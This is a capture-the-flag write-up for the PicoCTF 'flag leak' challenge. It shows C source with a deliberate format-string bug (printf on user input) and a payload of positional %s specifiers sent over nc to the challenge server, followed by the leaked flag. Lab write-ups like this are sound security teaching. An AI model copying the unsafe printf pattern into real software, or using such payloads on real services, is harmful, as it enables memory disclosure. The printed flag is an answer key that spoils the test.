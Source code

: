 ```yaml
---
title: PicoCTF - flag leak
tags: [PicoCTF, CTF, PWN]

category: "Security/Practice/PicoCTF/PWN"
---
```


# PicoCTF - flag leak
## Background
Format String Bug
![](https://hackmd.io/_uploads/BkqBmpOih.png)
![](https://hackmd.io/_uploads/SyvLXauon.png)

## Source code
:::spoiler
```cpp=
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}

```
:::
## Recon
這一題比計安教的還簡單，不過我全忘了QQ
先用gdb跟一下，發現在stack的地方有flag的痕跡，記一下相對位置就可以print出來，如果怕不同device會有問題的話就多幾個
## Exploit
Payload: `%20$s%21$s%22$s%23$s%24$s%25$s%26$s`
```bash!
python -c 'print("%20$s%21$s%22$s%23$s%24$s%25$s%26$s")' | nc saturn.picoctf.net 50811
Tell me a story and then I'll tell you one >> Here's a story -
������e�
        setresgidCTF{L34k1ng_Fl4g_0ff_St4ck_5e16d521}���̓ii
```

Flag: `picoCTF{L34k1ng_Fl4g_0ff_St4ck_5e16d521}`